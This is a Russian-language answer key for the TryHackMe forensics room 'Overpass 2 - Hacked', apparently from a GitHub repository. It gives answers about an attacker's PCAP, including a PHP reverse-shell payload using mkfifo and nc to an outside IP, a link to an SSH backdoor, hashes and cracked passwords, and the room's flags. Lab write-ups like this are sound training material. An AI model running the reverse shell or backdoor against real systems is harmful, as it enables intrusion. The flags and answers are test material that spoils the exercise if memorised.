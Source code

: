 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Overpass 2 - Hacked](https://tryhackme.com/r/room/overpass2hacked) 

Всего 3 задания:
## Задание 1
Overpass взломан! Команда SOC (Paradox, поздравляем с повышением) заметила подозрительную активность во время ночной 
смены, просматривая шибы, и сумела перехватить пакеты в момент атаки. 

Сможете ли вы выяснить, как злоумышленник проник внутрь, и взломать рабочий сервер Overpass?

Примечание: Хотя эта комната является пошаговым руководством, она предполагает знакомство с инструментами и Linux. Я 
рекомендую изучить основы Wireshark и завершить Linux Fundamentals как минимум. 

md5sum файла PCAP : 11c3b2e9221865580295bc662c35c6dc

### Ответить на вопросы ниже
Какой URL-адрес страницы они использовали для загрузки обратного шелла?
```commandline
/development/
```
Какую полезную нагрузку использовал злоумышленник для получения доступа?
```commandline
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
Какой пароль использовал злоумышленник для доступа?
```commandline
whenevernoteartinstant
```
Как злоумышленнику удалось обеспечить настойчивость?
```commandline
https://github.com/NinjaJc01/ssh-backdoor
```
Сколько системных паролей удалось взломать, используя список слов Fasttrack?
```commandline
4
```

## Задание 2
Теперь, когда вы нашли код бэкдора, пришло время его проанализировать.

Ответить на вопросы ниже
Какой хэш по умолчанию для бэкдора?

```commandline
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```
Какова жестко закодированная соль для бэкдора?
```commandline
1c362db832f3f864c8c2fe05f2002a05
```
Какой хэш использовал злоумышленник? — для этого вернитесь к PCAP!
```commandline
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
Взломайте хэш с помощью rockyou и инструмента взлома по вашему выбору. Какой пароль?
```commandline
november16
```

## Задание 3
Теперь, когда инцидент расследован, Paradox нужен кто-то, кто снова возьмет под контроль производственный сервер 
Overpass. 

На коробке есть флаги, которые Overpass не может позволить себе потерять, форматируя сервер!

### Ответить на вопросы ниже
Злоумышленник испортил сайт. Какое сообщение он оставил в качестве заголовка?

```commandline
H4ck3d by CooctusClan
```
Используя информацию, которую вы нашли ранее, взломайте систему и вернитесь обратно!
```commandline
Ответ не нужен
```
+ 15
Что такое флаг пользователя?
```commandline
thm{d119b4fa8c497ddb0525f7ad200e6567}
```
+ 20
Что такое корневой флаг?
```commandline
thm{d53b2684f169360bb9606c333873144d}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)